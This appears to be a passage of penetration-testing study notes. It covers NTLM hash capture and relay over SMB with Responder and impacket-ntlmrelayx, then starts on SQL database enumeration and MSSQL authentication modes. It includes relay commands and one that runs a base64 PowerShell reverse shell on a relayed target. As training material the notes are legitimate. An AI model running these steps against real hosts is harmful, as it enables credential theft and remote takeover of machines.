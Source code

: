 #### Forced Authentication Attacks

We can also abuse the SMB protocol by creating a fake SMB Server to capture users' [NetNTLM v1/v2 hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4).

If we cannot crack the hash, we can potentially relay the captured hash to another machine using [impacket-ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) or Responder [MultiRelay.py](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py). Let us see an example using `impacket-ntlmrelayx`.

First, we need to set SMB to `OFF` in our responder configuration file (`/etc/responder/Responder.conf`).

```shell
 cat /etc/responder/Responder.conf | grep 'SMB ='
```

```shell
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```

We can create a PowerShell reverse shell using [https://www.revshells.com/](https://www.revshells.com/), set our machine IP address, port, and the option Powershell #3 (Base64).

```shell
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e base64blob'
```


## LATEST SMB VULNS

SMBGhost



# Attacking SQL databased

## Enumeration

By default, MSSQL uses ports `TCP/1433` and `UDP/1434`, and MySQL uses `TCP/3306`. However, when MSSQL operates in a "hidden" mode, it uses the `TCP/2433` port.

## Authentication Mechanisms

`MSSQL` supports two [authentication modes](https://docs.microsoft.com/en-us/sql/connect/ado-net/sql/authentication-sql-server), which means that users can be created in Windows or the SQL Server:

|**Authentication Type**|**Description**|
|---|---|
|`Windows authentication mode`|This is the default, often referred to as `integrated` security because the SQL Server security model is tightly integrated with Windows/Active Directory. Specific Windows user and group accounts are trusted to log in to SQL Server. Windows users who have already been authenticated do not have to present additional credentials.|
|`Mixed mode`|Mixed mode supports authentication by Windows/Active Directory accounts and SQL Server. Username and password pairs are maintained within SQL Server.|

#### MySQL - Connecting to the SQL Server
